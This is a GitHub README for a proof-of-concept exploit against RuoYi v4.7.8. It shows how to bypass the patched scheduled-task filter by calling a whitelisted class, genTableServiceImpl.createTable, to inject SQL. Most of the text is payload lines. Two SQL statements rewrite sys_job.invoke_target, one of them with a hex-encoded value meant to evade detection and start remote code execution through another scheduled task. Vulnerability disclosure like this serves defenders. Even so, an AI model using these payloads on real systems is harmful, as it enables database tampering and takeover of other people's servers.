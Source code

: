 # RuoYi-v4.7.8-RCE-POC

The system had vulnerabilities in the scheduled tasks before, and now I bypass it.

### Sqli

In the patch, a strategy using blacklisting and whitelisting was employed.

![截屏2024-02-25 15.22.37](images/%E6%88%AA%E5%B1%8F2024-02-25%2015.22.37.png)

However, I managed to bypass it by using a whitelist class and successfully carried out an SQL injection.

```Java
genTableServiceImpl.createTable('SELECT 1 FROM 'Hack By 1ue';')
```

![img](images/(null)-20240225151808087.(null))

```Java
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'Hack By 1ue' WHERE job_id = 1;')
```

![img](images/(null)-20240225151808048.(null))

success to change the data of table `job_id`

### RCE

`JobInvokeUtil`does not allow parentheses in the string during invocation, so I modified the parameter value of a specific job in the original job table to hexadecimal (bypassing defense detection), enabling another scheduled task for Remote Code Execution (RCE).

![img](images/(null))

```Java
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a61... WHERE job_id = 2;')
```

![截屏2024-02-25 15.18.34](images/%E6%88%AA%E5%B1%8F2024-02-25%2015.18.34.png)

the job's invoke_target changed

![img](images/(null)-20240225151808261.(null))

and then execute!
